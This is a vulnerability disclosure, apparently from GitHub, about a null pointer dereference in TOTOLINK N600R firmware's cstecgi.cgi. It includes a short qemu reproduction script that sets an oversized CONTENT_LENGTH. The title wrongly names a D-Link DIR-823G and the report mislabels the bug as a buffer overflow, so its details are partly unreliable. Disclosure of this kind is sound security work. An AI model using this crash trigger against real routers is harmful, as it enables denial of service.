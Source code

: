 # Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code path within the `main` function of cstecgi.cgi extracts the `CONTENT_LENGTH` environment variable by `getenv` and passes it as the size parameter of `malloc`. However, when the `CONTENT_LENGTH` is set as a large size, the `malloc` would return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.
![alt text](image-2.png)

## poc

We set a breakpoint before the function call `memset` at line 84. By dumping the registers, we can see that `v11` is null and `v10` is a positive value. By tracing the execution, we find a null pointer dereference occurs.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./CONTENT_LENGTH_MAX.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### CONTENT_LENGTH_MAX.sh
```bash
chroot ./ ./qemu-mips-static\
        -E CONTENT_LENGTH="2147483646" \
        -g 123 -L ./lib \
        ./web_cste/cgi-bin/cstecgi.cgi < null.json
```
### null.json
```json
{
    
}
```